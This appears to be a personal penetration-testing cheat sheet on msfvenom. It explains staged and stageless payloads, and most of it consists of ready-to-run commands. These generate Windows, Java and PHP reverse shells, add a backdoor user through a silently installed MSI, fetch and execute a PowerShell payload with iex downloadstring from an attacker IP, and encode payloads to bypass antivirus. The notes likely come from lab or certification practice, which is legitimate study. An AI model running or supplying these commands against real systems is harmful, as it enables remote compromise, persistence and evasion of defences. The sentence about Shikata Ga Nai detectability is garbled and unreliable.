 ```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

MSFVenom is the payload creating cousin of Metasploit. With it, you can create a wide variety of shellcodes, reverse TCP connectors, and much more. [MSFvenom - Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/)

Reverse connections are less likely to trigger prevention systems like the one initializing the connection is the victim host, which most of the time resides in what is known as a `security trust zone`. However, of course, this trust policy is not blindly followed by the security devices and personnel of a network, so the attacker must tread carefully even with this step.

## Staged vs. Stageless Payloads

`Staged` payloads create a way for us to send over more components of our attack. When run a staged payload using an exploit module in Metasploit, the payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

`Stageless` payloads do not have a stage. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere. Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload. In addition to this, stageless payloads can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload, especially if we deliver it by employing social engineering. This concept is also very well explained by Rapid 7 in this blog post on [stageless Meterpreter payloads](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/).

## Usage

##### List Payloads 

```shell-session
msfvenom -l payloads
```

##### Options 

| Option                            | Description                                            |
| --------------------------------- | ------------------------------------------------------ |
| -p \<PAYLOAD\>                    | Generate a payload from the list in [[#List Payloads]] |
| LHOST=10.10.14.113 LPORT=443 <br> | Addresses to connect back to                           |
| -f elf                            | Format to generate the payload in                      |
| -o \<FILE\>                       | Output file                                            |

# Anti-Virus Bypass 

* `msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -e x86/shikata_ga_nai -i 100 -f csharp`
* 
If the program gets closed quickly you can use` msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate`  in MSF console
# Windows 

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1

iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
```

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
msiexec /quiet /qn /i C:\Users\phoebe\exploit.msi
```

## Example commands:

* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta`
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe`
* `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f raw > shell.jsp`
* `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.49.65 lport=443 -f raw`

## Payload Encoders 

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore.

```shell-session
-e x86/shikata_ga_nai
```